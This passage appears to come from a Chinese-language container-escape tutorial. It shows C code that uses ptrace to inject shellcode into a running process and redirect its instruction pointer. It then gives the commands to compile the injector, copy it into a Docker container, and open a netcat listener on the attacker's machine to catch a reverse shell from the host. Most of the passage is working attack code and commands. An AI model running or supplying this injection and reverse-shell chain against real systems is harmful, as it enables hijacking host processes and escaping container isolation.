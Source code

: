 ```c
  if ((ptrace (PTRACE_GETREGS, target, NULL, &regs)) < 0)
    {
      perror ("ptrace(GETREGS):");
      exit (1);
    }
  

  /* Inject code into current RPI position */

  printf ("+ Injecting shell code at %p\n", (void*)regs.rip);
  inject_data (target, shellcode, (void*)regs.rip, SHELLCODE_SIZE);

  regs.rip += 2;
  printf ("+ Setting instruction pointer to %p\n", (void*)regs.rip);

  if ((ptrace (PTRACE_SETREGS, target, NULL, &regs)) < 0)
    {
      perror ("ptrace(GETREGS):");
      exit (1);
    }
  printf ("+ Run it!\n");

 
  if ((ptrace (PTRACE_DETACH, target, NULL, NULL)) < 0)
	{
	  perror ("ptrace(DETACH):");
	  exit (1);
	}
  return 0;

}


```

编译代码:

```
gcc infect.c -o infect
```

移动到容器：

```
docker cp infect test:/root/
```

攻击机监听

```
nc -lvvp 4444
```

靶机宿主机启动一个python server进程
